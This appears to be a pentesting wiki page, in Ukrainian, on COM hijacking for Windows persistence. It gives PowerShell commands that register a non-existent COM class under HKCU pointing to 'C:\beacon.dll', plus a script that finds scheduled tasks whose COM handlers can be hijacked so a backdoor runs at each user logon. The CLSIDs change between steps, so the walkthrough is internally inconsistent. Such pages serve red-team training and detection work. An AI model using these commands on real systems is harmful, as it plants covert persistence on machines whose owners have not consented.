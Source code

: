 # COM Hijacking

{{#include ../../banners/hacktricks-training.md}}

### Пошук неіснуючих COM компонентів

Оскільки значення HKCU можуть бути змінені користувачами, **COM Hijacking** може бути використано як **постійний механізм**. Використовуючи `procmon`, легко знайти шукані реєстрації COM, які не існують, які зловмисник може створити для постійності. Фільтри:

- **RegOpenKey** операції.
- де _Результат_ є **NAME NOT FOUND**.
- і _Шлях_ закінчується на **InprocServer32**.

Якщо ви вирішили, який неіснуючий COM наслідувати, виконайте наступні команди. _Будьте обережні, якщо ви вирішите наслідувати COM, який завантажується кожні кілька секунд, оскільки це може бути надмірно._
```bash
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}"
New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\beacon.dll"
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```
### Hijackable Task Scheduler COM components

Windows Tasks використовують Custom Triggers для виклику COM об'єктів, і оскільки вони виконуються через Task Scheduler, легше передбачити, коли вони будуть активовані.

<pre class="language-powershell"><code class="lang-powershell"># Show COM CLSIDs
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
if ($Task.Actions.ClassId -ne $null)
{
if ($Task.Triggers.Enabled -eq $true)
{
$usersSid = "S-1-5-32-545"
$usersGroup = Get-LocalGroup | Where-Object { $_.SID -eq $usersSid }

if ($Task.Principal.GroupId -eq $usersGroup)
{
Write-Host "Task Name: " $Task.TaskName
Write-Host "Task Path: " $Task.TaskPath
Write-Host "CLSID: " $Task.Actions.ClassId
Write-Host
}
}
}
}

# Sample Output:
<strong># Task Name:  Example
</strong># Task Path:  \Microsoft\Windows\Example\
# CLSID:  {1936ED8A-BD93-3213-E325-F38D112938E1}
# [more like the previous one...]</code></pre>

Перевіряючи вихідні дані, ви можете вибрати один, який буде виконуватися **кожного разу, коли користувач входить** наприклад.

Тепер, шукаючи CLSID **{1936ED8A-BD93-3213-E325-F38D112938EF}** в **HKEY\_**_**CLASSES\_**_**ROOT\CLSID** і в HKLM та HKCU, ви зазвичай виявите, що значення не існує в HKCU.
```bash
# Exists in HKCR\CLSID\
Get-ChildItem -Path "Registry::HKCR\CLSID\{1936ED8A-BD93-3213-E325-F38D112938EF}"

Name           Property
----           --------
InprocServer32 (default)      : C:\Windows\system32\some.dll
ThreadingModel : Both

# Exists in HKLM
Get-Item -Path "HKLM:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" | ft -AutoSize

Name                                   Property
----                                   --------
{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1} (default) : MsCtfMonitor task handler

# Doesn't exist in HKCU
PS C:\> Get-Item -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"
Get-Item : Cannot find path 'HKCU:\Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}' because it does not exist.
```
Тоді ви можете просто створити запис HKCU, і щоразу, коли користувач входить в систему, ваш бекдор буде активовано.

{{#include ../../banners/hacktricks-training.md}}
